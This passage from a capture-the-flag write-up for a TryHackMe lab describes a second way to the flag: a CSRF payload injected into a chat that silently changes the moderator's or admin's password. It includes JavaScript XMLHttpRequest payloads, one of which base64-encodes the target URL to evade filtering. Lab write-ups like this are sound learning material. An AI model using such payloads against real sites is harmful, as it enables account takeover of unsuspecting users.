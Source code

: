
### Another way to get the flag
- another way to get the flag could be having a paylaod to change the password directly - CSRF. Going back and login as the moderator and go to the chat.
- I would like to create a XmlHttpRequest(). First let me get burp going to see how the password change request was done. Also had the proxy set and visited the change password page.
- <img width="1910" height="967" alt="Screenshot from 2025-09-29 21-45-37" src="https://github.com/user-attachments/assets/be6c9fe8-ad77-4fe4-b773-491b90b6e525" />
- the parameter was new_password=test.
- The payload would be similiar to the one in https://tryhackme.com/room/csrfV2 task 7. This was the origianl payload in that room.
- ```javascript
  <script>
        var xhr = new XMLHttpRequest();
        xhr.open('POST', 'http://mybank.thm/updatepassword', true);
        xhr.setRequestHeader("X-Requested-With", "XMLHttpRequest");
        xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
        xhr.onreadystatechange = function () {
            if (xhr.readyState === XMLHttpRequest.DONE && xhr.status === 200) {
                alert("Action executed!");
            }
        };
        xhr.send('action=execute&parameter=value');
    </script>
  ```
- It was only the target URL need to be changed and base64 encoded, and also the parameter need to be changed. Why base64 encoding was required? I learned that from trial and error when I stole the cookie.
- To encode 'http://login.worldwap.thm/change_password.php' to base64, it could be done in cyberchef
- <img width="1577" height="514" alt="Screenshot from 2025-09-29 21-58-30" src="https://github.com/user-attachments/assets/7569faed-cb6a-4f05-8130-b52433e8900f" />
- so the final payload was:
- ```javascript
  <script>
        var xhr = new XMLHttpRequest();
        xhr.open('POST', atob("aHR0cDovL2xvZ2luLndvcmxkd2FwLnRobS9jaGFuZ2VfcGFzc3dvcmQucGhw"), true);
        xhr.setRequestHeader("X-Requested-With", "XMLHttpRequest");
        xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
        xhr.onreadystatechange = function () {
            if (xhr.readyState === XMLHttpRequest.DONE && xhr.status === 200) {
                alert("Action executed!");
            }
        };
        xhr.send('action=execute&new_password=test');
    </script>
  ```
- finally, logout, and login again using username 'admin' and password 'test'. Got the same flag.
- <img width="1599" height="833" alt="Screenshot from 2025-09-29 22-01-17" src="https://github.com/user-attachments/assets/c99d63e1-feb3-4aa2-994e-f52e93eabc1a" />











  
